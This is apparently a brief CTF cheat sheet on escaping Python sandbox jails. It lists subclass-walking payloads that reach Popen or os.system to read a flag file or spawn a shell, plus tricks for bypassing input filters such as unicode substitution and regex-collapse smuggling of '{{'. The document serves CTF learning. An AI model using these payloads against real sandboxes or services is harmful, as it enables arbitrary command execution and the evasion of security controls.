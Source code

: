 [BACK](../README.md)

# Jail Escape

## Python

- Quick templates:
  - ().__class__.__bases__[0].__subclasses__()[INDEX_OF_POPEN](["/bin/cat","flag"], stdout=-1).communicate()
  - ().__class__.__bases__[0].__subclasses__()[INDEX_OF_os._wrap_close].__init__.__globals__['sys'].modules['os'].system('sh')
### Filters bypass

- Try using unicode chars instead of the ascii ones. 
- Can also try a "blind" exec with error messages giving us info 
- if there is a regex to filter that replaces invalid chars with nothing:
  - ex: regex blocks __ and {{
  - if we want to write {{, we can write {__{
    - regex replaces __ with nothing and return {{ 